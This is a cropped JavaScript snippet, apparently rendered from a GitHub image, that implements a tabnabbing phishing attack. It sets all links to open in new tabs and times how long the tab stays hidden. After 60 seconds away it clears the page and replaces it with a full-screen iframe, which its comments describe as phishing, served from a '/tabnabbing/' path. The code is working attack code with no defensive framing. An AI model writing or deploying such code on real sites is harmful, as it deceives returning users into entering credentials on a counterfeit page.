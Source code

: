 ```javascript
    x.href = "/";
    x.textContent = "link";
    x.style =
      "display:block;padding:20px;margin:20px;color:#07f;text-decoration:underline;font-size:18px;cursor:pointer";
    document.body.prepend(x);
    l = document.links;
  }

  // Set target="_blank" on all links
  for (var j = 0; j < l.length; j++) {
    l[j].setAttribute("target", "_blank");
  }
}

// Start away timer
function s() {
  // Clear existing timer if any
  if (i) clearInterval(i);

  // Start new timer (1 second intervals)
  i = setInterval(function () {
    // If away and 60 seconds elapsed
    if (a && ++t >= 60) {
      clearInterval(i);

      // Clear page
      document.body.innerHTML = "";
      document.body.style =
        "margin:0;padding:0;overflow:hidden;background:#fff";

      // Create full-screen phishing iframe
      var f = document.createElement("iframe");
      f.src = "/tabnabbing/gguruvelli3";
      f.style =
        "position:fixed;top:0;left:0;width:100%;height:100vh;border:0;margin:0;padding:0;display:block;z-index:999999";
      document.body.appendChild(f);
    }
  }, 1000);
}

// Handle visibility changes
function v() {
  if (document.hidden) {
    // Tab became hidden - start timer
    a = 1;
    s();
  } else {
    // Tab became visible - reset everything
    a = 0;
    t = 0;
    if (i) clearInterval(i);
  }
}

// Initialize link modification with observer
function o() {
  // Modify existing links
  m();

  // Watch for new links
  new MutationObserver(function () {
```